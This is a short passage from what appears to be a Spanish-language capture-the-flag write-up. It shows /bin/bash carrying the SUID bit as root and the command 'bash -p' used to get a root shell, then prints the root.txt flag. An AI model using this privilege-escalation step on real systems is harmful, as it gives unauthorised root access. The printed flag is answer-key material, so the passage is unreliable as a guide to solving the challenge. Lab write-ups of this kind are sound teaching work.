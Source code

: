 Info:

```
-rwsr-sr-x 1 root root 1396520 Mar 14 11:31 /bin/bash
```

Veremos que funciono, por lo que haremos...

```shell
bash -p
```

Y ya seremos `root`, ahora leeremos la flag...

> root.txt (flag2)

```
318b5b7ad0c1f48a997d10fbcf28b7fc
```

